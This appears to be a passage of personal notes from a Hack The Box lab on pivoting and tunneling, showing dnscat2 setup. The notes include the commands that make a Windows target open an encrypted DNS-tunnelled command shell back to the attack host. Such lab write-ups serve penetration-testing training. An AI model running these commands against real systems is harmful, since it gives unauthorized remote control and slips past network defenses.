 ```
To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=d866ecfb9007f418429a6d9499864114

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

dnscat2>
```

Now download `DNScat2 - powershell`.

```
┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
Cloning into 'dnscat2-powershell'...
remote: Enumerating objects: 191, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (3/3), done.
remote: Total 191 (delta 0), reused 2 (delta 0), pack-reused 188
Receiving objects: 100% (191/191), 1.26 MiB | 6.50 MiB/s, done.
Resolving deltas: 100% (59/59), done.
```

Copy it to the Windows target.

![](./attachments/Pasted%20image%2020230222112840.png)

Run `powershell` and import `dnscat2.ps1`.

```
PS C:\Users\htb-student\Desktop> Import-Module .\dnscat2.ps1
```

Now we can call home bt inserting the attack host IP address and the secret generated by the server.

```
PS C:\Users\htb-student\Desktop> Start-Dnscat2 -DNSserver 10.10.15.176 -Domain inlanefreight.local -PreSharedSecret d866ecfb9007f418429a6d9499864114 -Exec cmd
```

Back on the attack host we recieve the connection.

```
dnscat2> New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```
